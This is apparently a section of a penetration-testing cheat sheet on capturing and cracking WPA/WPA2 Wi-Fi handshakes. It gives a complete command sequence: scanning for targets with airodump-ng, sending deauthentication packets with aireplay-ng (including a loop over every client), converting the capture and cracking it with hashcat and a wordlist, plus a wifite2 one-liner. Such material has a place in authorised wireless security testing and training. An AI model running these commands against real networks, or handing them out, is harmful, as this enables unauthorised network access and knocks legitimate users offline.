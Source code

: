 
#### 4-Way Handshake

* [https://www.wifi-professionals.com/2019/01/4-way-handshake](https://www.wifi-professionals.com/2019/01/4-way-handshake)
* [https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work](https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work)
* [https://www.aircrack-ng.org/doku.php?id=cracking_wpa](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
* [https://security.stackexchange.com/questions/111527/no-handshake-recorded-from-airodump-ng](https://security.stackexchange.com/questions/111527/no-handshake-recorded-from-airodump-ng)
* [https://hackware.ru/?p=74](https://hackware.ru/?p=74)
* [https://hackware.ru/?p=7542](https://hackware.ru/?p=7542)
* [https://hackware.ru/?p=5209](https://hackware.ru/?p=5209)

1\. Look for targets. Save BSSID (`00:00:00:00:00:01`), CH (`9`), ESSID (`SomeEssid`) and STATION (`00:00:00:00:00:02`) if deauth will be required:

```
$ sudo airodump-ng -M -U wlan1 [-c 36-165 (for 5GHz, see WLAN channels) or just -c 1-200 for all] [--band <abg>]
qq
```

2\. Start dumping the target's traffic:

```
[$ sudo iwconfig wlan1 channel 9]
$ sudo airodump-ng -c 9 --bssid 00:00:00:00:00:01 -w SomeEssid wlan1
```

3\. Send DeAuth packets in a separate terminal till `WPA handshake: XX:XX:XX:XX:XX:XX` appears (aggressive):

```
$ sudo aireplay-ng [-D] -0 2 -a 00:00:00:00:00:01 -c 00:00:00:00:00:02 wlan1
Or
$ for client in `cat 00:00:00:00:00:01.txt`; do sudo aireplay-ng -D -0 2 -a 00:00:00:00:00:01 -c $client wlan1; done
```

4\. Clean the capture, check it once again, covert to Hashcat format and crack it:

```
$ aircrack-ng SomeEssid*.cap
$ wpaclean SomeEssid-cleaned.cap SomeEssid-01.cap
$ cowpatty -r SomeEssid-cleaned.cap -s SomeEssid -c
$ /usr/lib/hashcat-utils/cap2hccapx.bin SomeEssid-cleaned.cap SomeEssid.hccapx
$ hashcat -m 2500 -a 0 cleaned.hccapx rockyou.txt
```

##### wifite2

```
$ sudo wifite -vi wlan1 --clients-only --wpa --no-wps
```
